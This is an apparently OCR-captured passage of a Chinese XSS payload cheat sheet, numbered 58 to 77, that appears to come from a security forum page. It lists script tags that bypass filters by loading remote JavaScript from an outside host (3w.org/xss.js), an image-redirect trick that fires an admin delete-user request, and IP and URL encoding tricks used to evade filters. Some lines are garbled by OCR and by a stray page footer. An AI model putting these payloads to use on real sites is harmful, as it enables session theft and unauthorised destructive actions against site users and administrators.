 ```

(58)如果过滤了你的 JS 你可以在图片里添加 JS 代码来利用
<SCRIPT SRC=""></SCRIPT>

(59)IMG 嵌入式命令,可执行任意命令
<IMG SRC="http://www.a.com/a.php?a=b">

(60)IMG 嵌入式命令(a.jpg 在同服务器)
Redirect 302 /a.jpg http://www.XXX.com/admin.asp&deleteuser

(61)绕符号过滤
<SCRIPT a=">" SRC="http://3w.org/xss.js"></SCRIPT>

(62)<SCRIPT =">" SRC="http://3w.org/xss.js"></SCRIPT>

(63)<SCRIPT a=">" " SRC="http://3w.org/xss.js"></SCRIPT>

(64)<SCRIPT "a='>'" SRC="http://3w.org/xss.js"></SCRIPT>

(65)<SCRIPT a=`>` SRC="http://3w.org/xss.js"></SCRIPT>

(66)12-7-1 T00LS - Powered by Discuz! Board
https://www.a.com/viewthread.php?action=printable&tid=15267 4/6<SCRIPT a=">'>"
SRC="http://3w.org/xss.js"></SCRIPT>

(67)<SCRIPT>document.write("<SCRI");</SCRIPT>PT SRC="http://3w.org/xss.js"></SCRIPT>

(68)URL 绕行
<A HREF="http://127.0.0.1/">XSS</A>

(69)URL 编码
<A HREF="http://3w.org">XSS</A>

(70)IP 十进制
<A HREF="http://3232235521″>XSS</A>

(71)IP 十六进制
<A HREF="http://0xc0.0xa8.0×00.0×01″>XSS</A>

(72)IP 八进制
<A HREF="http://0300.0250.0000.0001″>XSS</A>

(73)混合编码
<A HREF="http://6 6.000146.0×7.147/"">XSS</A>

(74)节省[http:]
<A HREF="//www.google.com/">XSS</A>

(75)节省[www]
<A HREF="http://google.com/">XSS</A>

(76)绝对点绝对 DNS
<A HREF="http://www.google.com./">XSS</A>

(77)javascript 链接
<A HREF="javascript:document.location='http://www.google.com/'">XSS</A>
```
